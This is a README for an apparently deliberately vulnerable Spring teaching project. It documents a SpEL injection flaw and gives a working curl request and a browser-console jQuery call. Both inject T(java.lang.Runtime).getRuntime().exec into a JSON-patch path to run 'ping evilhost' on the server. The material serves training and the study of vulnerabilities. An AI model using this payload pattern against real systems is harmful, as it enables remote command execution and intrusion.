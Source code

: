 # SpELinj
Exemple for SpEL injection

Made for internship at St. Petersburg ETU LETI.

This project contains a SpEL injection vulnerability.

To exploit this vulnerability, you need to send a request to the server like:
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"ping evilhost\").x", "value" : "pwned" }]' "http://localhost/cars/1/"

or execute the following code in the browser console on the "Добавить объявление" page:
$.ajax({            url: 'cars/1/',
                    type: 'PATCH',
                    data: JSON.stringify([{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"ping evilhost\").x", "value" : "pwned" }]),
                    contentType: 'application/json-patch+json; charset=utf-8',
                    dataType: 'json-patch+json',
                    async: false });
